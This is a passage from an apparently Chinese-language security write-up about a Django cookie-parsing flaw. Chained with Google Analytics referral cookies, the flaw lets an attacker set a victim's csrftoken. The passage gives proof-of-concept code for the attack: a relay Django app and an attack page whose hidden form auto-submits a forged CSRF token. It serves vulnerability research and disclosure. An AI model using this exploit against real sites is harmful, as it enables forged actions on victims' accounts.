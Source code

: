 由于Referer是我们可以控制的，所以也就有了设置受害者cookie的可能，但是如何设置`csrftoken`的值呢？

这就用到了我们上面说的Django处理cookie的漏洞，当我们设置Referer为`http://x.com/hello]csrftoken=world`，GA设置的cookie如下：

```
__utmz=123456.123456789.11.2.utmcsr=x.com|utmccn=(referral)|utmcmd=referral|utmcct=hello]csrftoken=world
```

当Django解析cookie时就会触发上面说的漏洞，将cookie中`csrftoken`的值赋为`world`。

实际操作一下，为了方便路由我们在另一个IP上再开一个DjangoApp作为中转，其中各文件如下：

`urls.py`:

```python
from django.conf.urls import url
from django.contrib import admin

from app.views import route

urlpatterns = [
    url(r'^admin/', admin.site.urls),
    url(r'^hello', route)
]
```

`views.py`:

```python
from django.shortcuts import render
from django.http import HttpResponse

# Create your views here.

def route(req):
    return render(req, 'route.html')
```

`route.html`:

```javascript
<script> window.location = 'http://127.0.0.1:8000/ga/'; </script>
```

开启中转App：`python manage.py runserver xxx`

构造一个攻击页面：

```html
<form id="csrf" action="http://127.0.0.1:8000/check/" method="POST">
    <input type="hidden" name="csrfmiddlewaretoken" value="boom">
</form>

<script type="text/javascript" charset="utf-8">
function sleep (time) {
      return new Promise((resolve) => setTimeout(resolve, time));
}

function poc() {
    window.open('http://redirect-server/hello]csrftoken=boom');

    sleep(1000).then(() => {
        document.getElementById('csrf').submit();
    });
}
</script>

<a href='#' onclick=poc()> Click me </a>

```
